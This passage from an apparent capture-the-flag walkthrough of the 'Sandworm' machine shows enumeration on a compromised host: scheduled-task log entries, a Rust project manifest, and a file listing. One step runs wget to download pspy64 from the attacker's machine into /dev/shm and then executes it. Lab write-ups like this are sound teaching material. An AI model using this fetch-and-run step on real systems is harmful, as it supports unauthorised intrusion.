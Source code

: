 ```
[2023-11-14 21:42:01] - User: ROUTINE, Query:  - , Justification: Pulling fresh submissions into database.
[2023-11-14 21:44:02] - User: ROUTINE, Query:  - , Justification: Pulling fresh submissions into database.

```

This is a good sign there’s a cron or other scheduled task running every two minutes. The `Cargo.toml` file defines the Rust package:

```

[package]
name = "tipnet"
version = "0.1.0"
edition = "2021"

# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html

[dependencies]
chrono = "0.4"
mysql = "23.0.1"
nix = "0.18.0"
logger = {path = "../crates/logger"}
sha2 = "0.9.0"
hex = "0.4.3"

```

Interestingly, the `logger` library is located in the `crates` directory (as observed). In the `src` folder is a single file, `main.rs`:

```

silentobserver@sandworm:/opt/tipnet/src$ ls -l
total 8
-rwxr-xr-- 1 root atlas 5795 May  4  2023 main.rs

```

#### Processes

There’s nothing too exciting in the process list, but I’ll also run [pspy](https://github.com/DominicBreuker/pspy) to look for crons (first uploading it from my host):

```

silentobserver@sandworm:/dev/shm$ wget 10.10.14.6/pspy64
--2023-11-14 21:34:48--  http://10.10.14.6/pspy64    
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK  
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                                              100%[============================================================================>]   2.96M  4.10MB/s    in 0.7s    

2023-11-14 21:34:49 (4.10 MB/s) - ‘pspy64’ saved [3104768/3104768]

silentobserver@sandworm:/dev/shm$ chmod +x ./pspy64
silentobserver@sandworm:/dev/shm$ ./pspy64
...[snip]...

```
